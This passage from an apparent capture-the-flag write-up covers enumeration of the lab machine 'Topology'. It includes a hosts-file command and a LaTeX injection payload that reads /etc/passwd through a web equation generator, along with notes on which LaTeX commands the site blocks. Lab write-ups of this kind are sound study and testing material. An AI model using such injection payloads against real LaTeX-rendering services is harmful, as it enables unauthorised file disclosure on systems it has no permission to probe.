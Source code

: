 #### Enumeration

Nmap reveals a open port 80. Which leads to this website:![[Pasted image 20230622165521.png]]
The only link that redirects us to another page is the LaTeX Equation Generator link. http://latex.topology.htb/equation.php (Might need to add this domain to /etc/hosts)

`sudo -- sh -c "echo '10.10.11.217 latex.topology.htb' >> /etc/hosts"`

![[Pasted image 20230622183038.png]]
This page executes Latex code for us. I used this injection 
```
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```
which allowed me to see the first line of the /etc/passwd file
![[Pasted image 20230622183335.png]]
When doing \\write, \\input, \\usepackage, \\immediate, \\url, \\href it seems to be blacklisted.
![[Pasted image 20230622183413.png]]